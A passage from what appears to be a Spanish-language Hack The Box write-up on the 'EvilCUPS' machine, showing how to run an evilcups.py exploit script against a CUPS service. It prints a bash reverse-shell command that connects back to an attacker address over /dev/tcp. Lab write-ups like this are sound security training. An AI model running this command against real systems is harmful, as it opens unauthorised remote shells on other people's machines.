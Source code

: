 ![EvilCUPS yw4rf](../../../assets/HTB/EvilCUPS/evilcups-12.png)

Con el requerimiento instalado, podremos usar el script `python3 evilcups.py -h` para ver los posibles comandos. Como vemos, debemos indicar nuestra ip local, la ip target y el comando a realizar.

![EvilCUPS yw4rf](../../../assets/HTB/EvilCUPS/evilcups-13.png)

## Exploitation (Explotación)

En mi caso el comando que usaré es una **Reverse Shell** encapsulada `"bash -c 'bash -i >& /dev/tcp/10.10.14.152/443 0>&1`"`

![EvilCUPS yw4rf](../../../assets/HTB/EvilCUPS/evilcups-14.png)

